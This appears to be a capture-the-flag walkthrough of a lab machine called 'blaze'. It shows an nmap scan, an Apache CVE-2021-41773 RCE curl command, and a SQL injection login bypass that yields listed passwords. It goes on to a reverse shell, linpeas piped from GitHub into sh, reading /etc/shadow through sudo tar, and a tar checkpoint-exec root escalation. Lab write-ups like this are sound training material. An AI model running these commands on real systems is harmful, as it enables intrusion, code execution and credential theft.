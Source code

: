 ## Nmap

```nmap-tcp
??$ nmap -sC -sV -T 4 -p- 192.168.53.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-24 02:50 UTC
Nmap scan report for 192.168.53.10
Host is up (0.0069s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp   open  http            Apache httpd 2.4.41 ((Ubuntu))
|_http-title: blaze
|_http-server-header: Apache/2.4.41 (Ubuntu)
9090/tcp open  ssl/zeus-admin?
| ssl-cert: Subject: commonName=blaze/organizationName=d2737565435f491e97f49bb5b34ba02e
| Subject Alternative Name: IP Address:127.0.0.1, DNS:localhost
| Not valid before: 2024-01-24T02:50:54
|_Not valid after:  2123-12-31T02:50:54
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 400 Bad request
|     Content-Type: text/html; charset=utf8
|     Transfer-Encoding: chunked
|     X-DNS-Prefetch-Control: off
|     Referrer-Policy: no-referrer
|     X-Content-Type-Options: nosniff
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>
|     request
|     </title>
|     <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <style>
|     body {
|     margin: 0;
|     font-family: "RedHatDisplay", "Open Sans", Helvetica, Arial, sans-serif;
|     font-size: 12px;
|     line-height: 1.66666667;
|     color: #333333;
|     background-color: #f5f5f5;
|     border: 0;
|     vertical-align: middle;
|     font-weight: 300;
|     margin: 0 0 10px;
|_    @font-face {
|_ssl-date: TLS randomness does not represent time
```



### Port 80

Just a dummy apache site - apache 2.4.41
Tried cve-2021-41773:

```apache-rce-exploit
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2";
```

**Did not work**

Tried dirbuster
no luck but there is a login.php

**HAD TO REVERT**

Used auth bypass from [seclists](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt):
	'OR '' = '
*BOOTY*:
james 	Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI= canttouchhhthiss@455152
cameron 	dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy thisscanttbetouchedd@455152

Grabbed above plaintext for hashes from [hashes.com](https://hashes.com)

Logged in on port 9090 with james and canttouchhhthiss@455152

### Port 9090

Seems to be a config panel/admin type deal for server blaze - need password

Logged in via creds from port 80

Blaze system admin portal - terminal tab to establish reverse shell

## Foothold

Ran LinPeas

```linpeas
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Used sudo for james with no password to do tar -czvf to make backups

```priv-esc
 sudo -l
Matching Defaults entries for james on blaze:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on blaze:
    (ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *
$ sudo /usr/bin/tar -czvf /tmp/backup.tar.gz /etc/shadow

```

Got creds for root by viewing shadow file:

`root:$6$tweYyLabcuCnm5SJ$9gQ018URlPi8f0dq6u243E7eNeBzv6p8OiHMSPoHvHJcwQ6o.l0oxvoue0nWhBoYqUiiqtxswml6Az3fOGLt8/:19445:0:99999:7:::`

Couldn't crack

Looked up tar on GTFOBins

```priv-esc-done
sudo tar -czvf /tmp/backup.tar.gz * --checkpoint=1 --checkpoint-action=exec=/bin/sh
```